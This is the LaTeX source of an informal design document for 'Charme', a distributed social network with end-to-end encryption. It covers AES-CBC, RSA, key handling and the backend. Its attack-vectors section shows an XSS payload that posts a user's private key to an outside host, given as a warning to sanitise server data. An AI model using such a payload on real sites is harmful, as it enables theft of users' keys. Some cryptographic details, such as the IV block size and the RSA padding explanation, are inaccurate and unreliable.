%% Erläuterungen zu den Befehlen erfolgen unter
%% diesem Beispiel.
\documentclass{scrartcl}
 \setlength\parindent{0pt}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{lmodern}
\usepackage{amsmath}
\PassOptionsToPackage{hyphens}{url}\usepackage{hyperref}
\usepackage{graphicx}
 \usepackage{amssymb}
 \usepackage{listings}


 \PassOptionsToPackage{hyphens}{url}\usepackage{hyperref} %make url break
\title{Charme - A distributed social network with end-to-end encryption}
\author{Manuel Schultheiß\\manuel.schultheiss@tum.de}
\begin{document}  \sloppy % sloppy is used for making url{} break
 
\maketitle
\textbf{Abstract}\\
Basic cryptographic and networking concepts for the distributed social networks Charme are explained here.

\tableofcontents
 \newpage



\section{Introduction}
In contrast to classic social networks, distributed social networks with end to end encryption can provide self control for your data and kind of independence from big companies.  \textit{Distributed} means, that there is no central server hosting your data, but many small servers all around the world, which everyone can  setup. Just like email providers. With end-to-end encryption not even the server hosting your data can see your data. This is necessary for a distributed architecture as otherwise the server admin could read your messages for example .

 \section{Encryption and Security}
 \subsection{Existing work}
With Diaspora one of the first popular distributed social networks was released. The messages are not end-to-end encrypted, however, which makes it possible for the server admin to read its users messages. 
A more secure concept is \textit{Twister} (\url{http://twister.net.co}), a Twitter like peer-to-peer micro blogging platform. Using the blockchain makes it possible to encrypt messages and even meta data (including the IP Address!).
\subsection{Fundamental Concepts}
\subsubsection{AES-CBC \label{AESCBC}}
AES is a fast symmetric encryption algorithm that was standardized in 2001 and is still considered secure, although there exist some attacks on it.

A key $K_{A,B}$ is used for encryption and decryption by the two parties A and B. 
Cipher Block Chaining Mode (CBC) ensures that blocks that are identical in the plaintext, are not identical anymore in the chiphertext. This is essential, as otherwise images can still be recognized for example, although they are encrypted. First, a initialization vector (IV) is created:
$$
c_0 = IV
$$

A plaintext block $p_i$ becomes a chipher block $c_i$ during encryption.
$$
c_i = Enc_K(c_{i-1} \oplus p_i)
$$
and the same thing reversed for decryption:
$$
p_i = c_{i-1} \oplus Dec_K(K, c_i)
$$
It is important that the IV is shipped with integrity protection, otherwise an attacker could modify the first 256 bits in order to set the first decrypted plaintext block to a custom value. The other blocks can not be influenced however.

\subsubsection{RSA}
In RSA there are two different keys. The public key is visible to everyone, while the private key is only visible to the generator of both keys.  Asymmetric encryption is a lot of slower than symmetric encryption. So usually we generate an AES key, encrypt the text with the AES key and encrypt the AES key with the RSA key, rather than encrypting the whole text with the RSA key.
 Technically we generate large prime numbers $p$ and $q$.
\begin{eqnarray*}
 n = p *q 
\end{eqnarray*}
 and define
\begin{eqnarray*}
 \Phi(n) = (p-1)*(q-1)
\end{eqnarray*}
 Let e not equal to 1, smaller than $ \Phi(n)$ and not share a common divisor with $ \Phi(n)$.
 Now we compute d under the restriction:
 \newcommand{\Mod}[1]{\ (\text{mod}\ #1)}
\begin{eqnarray*}
 e*d = 1 \Mod{\Phi(n)}
\end{eqnarray*}
 To encrypt a message M or decrypt chipher C use:
\begin{eqnarray*}
 C = M^e \Mod{n}\\
 M = C^d \Mod{n}
\end{eqnarray*}
 To provide \textit{Ciphertext indistinguishability} RSA is used with a padding scheme like PKCS1. Here we generate n with more than two primes:
 \begin{eqnarray*}
 n = p_1*p_2*...*p_n
\end{eqnarray*}
with $p_1$ being r and $p_2$ being $q$.

 % TUM Network Security, WS 2014/15, Chapter 2.4 The RSA Public Key Algorithm

\subsubsection{Further reading}
\begin{enumerate}
\item PKCS\#1 v2.2 RSA Cryptography Standard\\\url{http://www.emc.com/collateral/white-papers/h11300-pkcs-1v2-2-rsa-cryptography-standard-wp.pdf} 
\end{enumerate}

\subsection{Diffie-Hellman Key Exchange}
In order to provide forward secrecy the users A and B have to generate a common session key, which if it is getting compromised does not reveal the long term key.

\subsubsection{Implementation}
There are a Javascript library called Gibberish AES for Javascript and Tom Wu's RSA Library for RSA providing the main functionality. Google wrote with its E2E project a better implementation of cryptographic algorithms which should replace the above ones as soon as possible. The long term goal is to use the W3C web crypo API however, if supported in all major browsers, as this one is more secure regarding key deletion from memory and random number generation. 

 \subsection{Client server seperation}
In contrast to classic social networks, we seperate client and server in two seperate projects first. This is necessary, as otherwise a server could return malicious javascript to the user. In a perfect word, the user has to download and install the client locally and verify the file hash, For testing purposes, he can also use a web hosted version of the client. Although they are hosted on different domains, client and server can still connect to each other via cross origin resource sharing (CORS).

\begin{figure}[ht]
	\centering
  
\includegraphics[]{eds.pdf}
	\caption{Client and Server code is strictly separated}
	\label{fig1}
\end{figure}


\subsection{Passphrase}
Charme basically uses an \textit{encrypted data storage}. This means critical data is encryped with a passhprase using AES-CBC (Section \ref{AESCBC}) and hosted on the server  (Figure \ref{fig1}). Consequently the server can not read the user data. Such data includes
\begin{enumerate}
\item \textbf{Personal information} like phone number. This information can later be decrypted and encrypted with a public key to distribute it to other people.
\item \textbf{The private RSA key} used to decrypt everything from other users.
\item \textbf{ The key directory}, which contains the public keys of all contacts. Here it is important that the receiver B of a message sent by user A only uses the newest private key to decrypt, as a malicious server of the key directory owner could return an old public key of user B.
\end{enumerate}
for example. The data is signed to prevent forgery of information.

 \subsection{Verifying private keys}
 When we want to write an encrypted message to user B, we need the public key of user B first. However, as the server or someone else can provide a wrong public key, it is necessary to check the public key for correctness. If done so, we encrypt the public key of user B with our passphrase and store it in the encrypted data storage.
 




 \subsection{Message encryption}
 

  
  Message encryption is basically working like in PGP. We save  public keys encrypted in the cloud, however, here. A simplified concept is illustrated in Figure \ref{fig2}). 
  A conversation $C$ consists of $n$ messages. A set of messages $S \in C$ has a symmetric key each. The symmetric key should change if a user is removed or a public key of a conversation participant is updated or a certain span of time has passed. Each message is encrypted with the newest symmetric key $s$.
  A message consits of the following information:
  
  
  \begin{enumerate}
\item Text encrpyted with symmetric key s
\item Conversation ID
\item Key Id of symmetric key s
\item Time
\end{enumerate}
This information is also signed using the senders private key.



 \begin{figure}[ht]
	\centering
  
\includegraphics[]{pubkey.pdf}
	\caption{Basic message encryption. Server A can also send the message to more servers than only Server B. The client does not send the message directly to server B, as with increasing number of receivers this would cost to much bandwidth for the client.}
	\label{fig2}
\end{figure}

  \subsection{Distributing private information}
  When giving private information like telephone number or email to other people, this is working slightly different to message distribution for performance reasons. See figure \ref{fig3}.
   \begin{figure}[ht]
	\centering
  
\includegraphics[]{prvInfo.pdf}
	\caption{Encryption of personal information}
	\label{fig3}
\end{figure}
  
    \subsection{Key Updates}
    When a private key or passphrase is compromised  it is necessary to recrypt the encryped data storage. In this case, all information are transmitted to the client, decryped with the current passphrase and encrypted with the new passhprase. The revision number for the public key increases afterwards.

  \subsection{Possible Attack Vectors}
   \subsubsection{XSS}
   One of the most critical attack vectors in Charme is Cross Site Scripting as with this technique private keys can be stolen.
   Therefore it is important to sanitize all displayed data from other people and servers. Never trust the server. For example imaging data is a JSON Object returned by the server:
   
       \begin{lstlisting}
\$("html").append("<a href='"+data.href+"'>TEST</a>");
    \end{lstlisting}
    
    If the server does not provide a hyperlink for data.href, but rather something like:
          \begin{lstlisting}
#'  onload='$.post("someotherserver.com", {key: theprivatekey})
     \end{lstlisting}
     this is extremly dangerous. Therefore always sanitize data from the server!!!
\subsubsection{DOS}
Attackers can flood small servers with a lot of requests.
       \subsubsection{Replay attacks}
          Server can provide old public/private keys for the user which have been compromised earlier.
      \subsubsection{Malformed data}
      Attackers can send malformed data to clients which results in the client to producing an exception and therefore make Charme unusable for the user.
      
      \subsubsection{Spam}
      
 \section{Backend}
\subsection{Technology Stack}
On server side, PHP is used as an interpreter. The reason for PHP is that it has a wide community supporting it, as it is used by many other big websites like Facebook or Wordpress for example. \textit{ZeroMQ} is used to send socket messages and communicate between different PHP threads. \textit{Gearman} is necessary to execute background tasks like sending messages in the asynchronously. As a database, \textit{MongoDB} is used, as it is scalable and has the ability to directly store JSON object to the database.
Administrations scripts are written for GNU Bash to provide ssh access.

  \section{Search}
  When it comes to search, we face some problems. Of course, it is not efficient to query hundreds or even more server from one client in the charme network. Filesharing applications typically use Kademlia  or Chord to index data within peer-to-peer networks. Such concepts may also be useful for search, as YaCy for example has shown.
\\\\
When looking at the network $C$ as a graph, every server $s_i  \in N$ with $i  \in \mathbb{N}$ has a domain name $tld(s_i)$.
Usually, the guid $i$ is initialized by a boot peer. However, as we want to keep the network as decentralized as possible, and we have the advantage of knowing the social relationships between the server, we should use another system. This system will be described soon here. You are free to make proposals and join the discussion.


\subsection{Further reading}
\begin{enumerate}
\item Peer-to-peer (P2P) Networks - Basic Algorithms \\\url{https://www.youtube.com/watch?v=kXyVqk3EbwE} % Minute 18:07 Boot up peer to peer net
\end{enumerate}
\section{Coding Guidelines}
\begin{enumerate}
\item camelCase for function names
\item Meaningful variable names
\item Not more than 1 blank line
\item Properties on top, functions on bottom
\end{enumerate}
* I am very sorry for everytime I did not follow these guidelines.
  \section{Technical Documentation}
\subsection{Login}
\textbf{ 1st step:} Get password salt value via \textit{reg\_salt\_get}\\
\textbf{2nd step:} Login with \textit{user\_login} and parameters u (username) and p (salt hashed password). Status PASS is returned if successful.
  \\\\
  Note: Please look up the parameters in the technical documentation, found somewhere in the Github Wiki. For examples, just perfom a global search (CTRL+Shift+F in Sublime Text) for the command in /jsclient.
\subsection{Messages}
To load the conversation preview list, \textit{messages\_get} is called. Each message has a message key. If a new message Key is generated, it is encrypted with the edgekey of the receiving users (Section \ref{edge}).

\subsection{Edgekeys\label{edge}}
For every kind of communication between two users we generate a symmetric edgekey, to increase performance as asymmetric encryption for every kind of message would require to much computational power.
The edgekeys should change after a certain timespan. (1 week?). Currently the edgekey is generated after a key was added to a key directory in \textit{settings\_keymanager.js}, with come code looking like:
\begin{lstlisting}
var edgekey = 
{
	"revisionA": fastkey.revision,
	"revisionB": d.key_get.revision,
	"revision" :  fastkey.revision+d.key_get.revision,
	"rsaEncEdgekey" : keypair.rsaEncKey,
	"fkEncEdgekey" : keypair.randomKey,
	"userId": userId
};
\end{lstlisting}
The edgekeys are requested to decrypt from user B. Later they will be cached in local storage of user B to even gain the performance we have planned to gain.
\subsection{Recryption of data}
When the private key is updated, it is required to recrypt the data in the encrypted data storage. This is done in the function \textit{updateDataOK()} in \textit{settings\_keymanager.js}.


\section{Sources}
As this is not some kind of scientific work I was to lazy to quote every sentence and install BibTex. Instead here are all the used sources at once: 
\begin{enumerate}
\item Network Security Lecture @ Munich Technical University, Carle et al,  \url{http://www.net.in.tum.de/de/lehre/ws1415/vorlesungen/network-security/}
\end{enumerate}
  
\end{document}
